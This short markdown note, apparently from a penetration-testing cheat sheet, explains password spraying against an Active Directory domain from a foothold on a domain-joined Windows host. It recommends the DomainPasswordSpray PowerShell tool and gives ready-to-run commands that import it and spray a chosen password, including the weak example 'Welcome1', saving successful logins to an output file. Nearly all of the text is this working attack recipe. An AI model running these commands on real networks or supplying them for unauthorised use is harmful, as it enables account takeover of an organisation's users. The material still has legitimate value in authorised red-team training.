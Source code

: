 # Password Spraying from Windows 🖥️
From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective.
``` powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password <Sprayed-Password> -OutFile spray_success -ErrorAction SilentlyContinue
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

